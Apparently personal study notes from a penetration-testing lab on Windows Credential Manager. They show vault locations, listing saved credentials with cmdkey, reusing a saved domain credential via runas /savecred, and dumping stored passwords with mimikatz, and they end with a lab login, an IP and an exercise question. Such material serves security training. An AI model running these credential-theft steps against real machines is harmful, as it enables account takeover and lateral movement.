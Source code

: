 Feature that is built into Windows since Server 2008 R2 and Windows 7. Cred are stored in special encrypted folders on the computer under the user and system profiles:

- `%UserProfile%\\AppData\\Local\\Microsoft\\Vault\\`
- `%UserProfile%\\AppData\\Local\\Microsoft\\Credentials\\`
- `%UserProfile%\\AppData\\Roaming\\Microsoft\\Vault\\`
- `%ProgramData%\\Microsoft\\Vault\\`
- `%SystemRoot%\\System32\\config\\systemprofile\\AppData\\Roaming\\Microsoft\\Vault\\`

Each vault folder contains a Policy.vpol file that contains AES keys (AES-128 or AES-256), protected by DPAPI.

Different Types of Credential Lockers are as follows:

|**Name**|**Description**|
|---|---|
|Web Credentials|Credentials associated with websites and online accounts. This locker is used by Internet Explorer and legacy versions of Microsoft Edge.|
|Windows Credentials|Used to store login tokens for various services such as OneDrive, and credentials related to domain users, local network resources, services, and shared directories.|

**Windows Vault Extraction:**

- It is possible to extract Windows vaults to a .crd file via Control Panel or with the following command. **Backups created are encrypted with a password!!**

`C:\\Users\\sadams>rundll32 keymgr.dll,KRShowKeyMgr`

![[Pasted image 20251028165428.png]]

## Enumerating credentials with cmdkey

- We can view the current credentials that are stored in the current user’s profile:

```bash
C:\\Users\\sadams>whoami
srv01\\sadams

C:\\Users\\sadams>cmdkey /list

Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic
    User: 02hejubrtyqjrkfi
    Local machine persistence

    Target: Domain:interactive=SRV01\\mcharles
    Type: Domain Password
    User: SRV01\\mcharles
```

- Stored credentials are listed with the following format:

|**Key**|**Value**|
|---|---|
|Target|The resource or account name the credential is for. This could be a computer, domain name, or a special identifier.|
|Type|The kind of credential. Common types are `Generic` for general credentials, and `Domain Password` for domain user logons.|
|User|The user account associated with the credential.|
|Persistence|Some credentials indicate whether a credential is saved persistently on the computer; credentials marked with `Local machine persistence` survive reboots.|

- Main thing to look at is this line right here: Target: Domain:interactive=SRV01\mcharles
    - We can see that we get the domain\user and also the keyword interactive, which means that we can get into an interactive shell using the “runas” command:

```bash
C:\\Users\\sadams>runas /savecred /user:SRV01\\mcharles cmd
Attempting to start cmd as user "SRV01\\mcharles" ...
```

## Tools:

- mimikatz
    - Using mimikatz, we can do a lot of things such as dump creds from memory using the sekurlsa, manually decrypt creds using the dpapi module.

```bash
C:\\Users\\Administrator\\Desktop> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \\ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \\ / ##       > <https://blog.gentilkiwi.com/mimikatz>
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > <https://pingcastle.com> / <https://mysmartlogon.com> ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::credman

...SNIP...

Authentication Id : 0 ; 630472 (00000000:00099ec8)
Session           : RemoteInteractive from 3
User Name         : mcharles
Domain            : SRV01
Logon Server      : SRV01
Logon Time        : 4/27/2025 2:40:32 AM
SID               : S-1-5-21-1340203682-1669575078-4153855890-1002
        credman :
         [00000000]
         * Username : mcharles@inlanefreight.local
         * Domain   : onedrive.live.com
         * Password : ...SNIP...

...SNIP...
```

"sadams" and password "totally2brow2harmon@

10.129.234.171

What is the password mcharles uses for OneDrive?